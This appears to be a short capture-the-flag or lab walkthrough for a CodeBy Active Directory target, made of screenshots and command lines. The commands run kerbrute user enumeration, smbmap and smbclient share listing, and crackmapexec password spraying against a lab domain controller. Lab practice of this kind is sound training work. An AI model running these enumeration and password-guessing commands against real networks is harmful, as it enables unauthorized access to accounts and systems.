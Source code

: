 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f4b29e9d-ec91-488d-9c1c-8944f0193732)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.4 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8378bfd-9f39-49fd-8fd4-ee903864c522)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
```
smbmap -H 192.168.2.4 -u "guest" -p "" -d codeby.cdb 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d0a99e64-34d8-4f12-8a33-f998f6734971)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f576be09-5901-42ff-927f-3f1e3d2e4d06)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/735656c1-2a35-4692-a325-9090da14b569)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84951fcb-17b0-4561-84c9-7963189cb7f2)
```
smbclient -L \\\\192.168.2.4\\ -U amaslova
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eed7217e-c251-47c3-9535-633f5ac2c235)
```
crackmapexec smb 192.168.2.4 -d codeby.cdb -u user.txt -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7bb80e8b-7aff-489a-b873-7974f1d7b17c)
